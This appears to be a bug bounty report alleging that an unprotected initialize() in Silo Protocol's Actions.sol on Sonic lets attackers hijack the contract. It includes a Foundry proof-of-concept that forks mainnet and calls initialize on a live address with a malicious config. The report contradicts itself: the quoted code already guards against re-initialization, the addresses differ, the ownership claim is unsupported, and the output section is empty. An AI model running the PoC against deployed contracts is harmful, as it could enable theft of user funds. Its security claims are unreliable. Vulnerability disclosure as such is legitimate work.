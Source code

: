 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ Critical 

_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53





**Summary:**

The Actions.sol contract acts as a middleware within the Silo Protocol. When a user interacts with core functions such as deposit or withdraw, the main protocol delegates responsibilities to this contract. This includes critical tasks such as:

- Calling accrueInterest()

- Managing reentrancy protection

- Interacting with vaults that handle funds

- Fetching shareToken and asset addresses

- Managing the hookReceiver


However, the initialize() function in Actions.sol is unprotected. It is publicly callable and lacks any access control (e.g., onlyOwner or initializer modifiers). This allows any attacker to hijack the contract, configure it with a malicious SiloConfig, and gain full control over the logic execution of the entire protocol.

Furthermore, the contract appears to have never been initialized, which makes this attack feasible on mainnet.



```solidity
// Actions.sol
    /// @notice Initialize Silo
    /// @param _siloConfig Address of ISiloConfig with full configuration for this Silo
    /// @return hookReceiver Address of the hook receiver for the silo
@audit-bug--> // ⚠️ BUG: Missing initialize call 
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) {
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```






**Impact:**

- Attacker can fully hijack the Actions.sol contract by calling initialize() with malicious config.

- The attacker can point hookReceiver, shareToken, and other vault interactions to addresses under their control.

- This allows arbitrary logic injection into protocol flows, including vault draining and disabling of reentrancy protection.

- Once hijacked, the protocol team cannot reclaim the contract, leading to permanent loss of control and user funds.





**Recommendation:**

- Protect the initialize() function with an onlyOwner or initializer modifier.

- Ensure the contract is properly initialized during deployment and can never be re-initialized.

- Consider deploying an upgrade or mitigation if the contract is already vulnerable on mainnet.





**Proof Of Concept (POC)**

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, shareToken and malicious vaults, finally the attacker became the owner of the Actions.sol contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISiloConfig {
    struct ConfigData {
        address hookReceiver;
        address silo;
    }

    function getConfig(address silo) external view returns (ConfigData memory);
}

interface IActions {
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver);
}

contract MaliciousSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0xdeadbeef),  // just test value
            silo: address(0x12345678)          // just test value
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04;

    MaliciousSiloConfig maliciousConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        // deploy mock silo config
        maliciousConfig = new MaliciousSiloConfig();
    }

    function test_Initialize() public {
        // try to initialize with attacker-controlled config
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                maliciousConfig
            )
        );

        require(success, string(data));
    }
}
```

**PoC Output:**